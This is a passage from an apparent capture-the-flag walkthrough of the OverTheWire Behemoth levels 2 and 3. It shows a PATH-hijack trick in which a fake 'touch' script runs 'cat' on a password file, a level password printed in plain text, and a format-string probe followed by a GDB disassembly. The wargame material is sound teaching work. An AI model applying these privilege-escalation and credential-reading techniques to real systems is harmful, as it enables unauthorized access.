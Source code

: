 It seems that the program build a string using `touch` and its *PID* then execute it via a *system()* call. We could try to symlink `touch` to another executable like `cat` to force the program to read out our password.

```bash
behemoth2@behemoth:/tmp$ mkdir ax
behemoth2@behemoth:/tmp$ cd ax
behemoth2@behemoth:/tmp/ax$ echo "cat /etc/behemoth_pass/behemoth3" > /tmp/ax/touch
behemoth2@behemoth:/tmp/ax$ chmod 777 touch
```

Then, execute the challenge in your temporary directory :

```bash
behemoth2@behemoth:/tmp/ax$ /behemoth/behemoth2
nieteidiel
```

## Behemoth 03 Solution

**SSH :** *ssh behemoth3@narnia.labs.overthewire.org -p 2221*<br/>
**Pass :** *nieteidiel*

Here, we got a simple format string vulnerability.

```bash
behemoth3@behemoth:/behemoth$ ./behemoth3
Identify yourself: %08x.%08x
Welcome, 78383025.3830252e

aaaand goodbye again.
```

Let's check the code in GDB.

```nasm
Dump of assembler code for function main:
   0x0804847b <+0>:	push   ebp
   0x0804847c <+1>:	mov    ebp,esp
   0x0804847e <+3>:	sub    esp,0xc8
   0x08048484 <+9>:	push   0x8048560
   0x08048489 <+14>:	call   0x8048330 <printf@plt>
   0x0804848e <+19>:	add    esp,0x4
   0x08048491 <+22>:	mov    eax,ds:0x80497c0
   0x08048496 <+27>:	push   eax
   0x08048497 <+28>:	push   0xc8
   0x0804849c <+33>:	lea    eax,[ebp-0xc8]
   0x080484a2 <+39>:	push   eax
   0x080484a3 <+40>:	call   0x8048340 <fgets@plt>
   0x080484a8 <+45>:	add    esp,0xc
   0x080484ab <+48>:	push   0x8048574
   0x080484b0 <+53>:	call   0x8048330 <printf@plt>
   0x080484b5 <+58>:	add    esp,0x4
   0x080484b8 <+61>:	lea    eax,[ebp-0xc8]
   0x080484be <+67>:	push   eax
   0x080484bf <+68>:	call   0x8048330 <printf@plt>
   0x080484c4 <+73>:	add    esp,0x4
   0x080484c7 <+76>:	push   0x804857e
   0x080484cc <+81>:	call   0x8048350 <puts@plt>
   0x080484d1 <+86>:	add    esp,0x4
   0x080484d4 <+89>:	mov    eax,0x0
   0x080484d9 <+94>:	leave
   0x080484da <+95>:	ret
End of assembler dump.
```
